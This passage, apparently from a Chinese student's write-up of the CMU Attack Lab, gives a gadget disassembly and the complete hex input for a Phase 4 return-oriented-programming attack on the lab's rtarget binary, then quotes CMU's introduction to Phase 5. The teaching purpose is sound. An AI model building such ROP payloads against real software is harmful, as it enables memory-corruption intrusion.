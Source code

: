 ```assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

得到指令地址为`0x4019c5`

根据上图的栈帧，就能写出我们的输入序列：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

![](./assets/image-20220305161143538.png)

**攻击成功！**

## Phase 5

先附上`Write up`中来自 CMU 官方的劝退：

>Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now. Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a  true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.
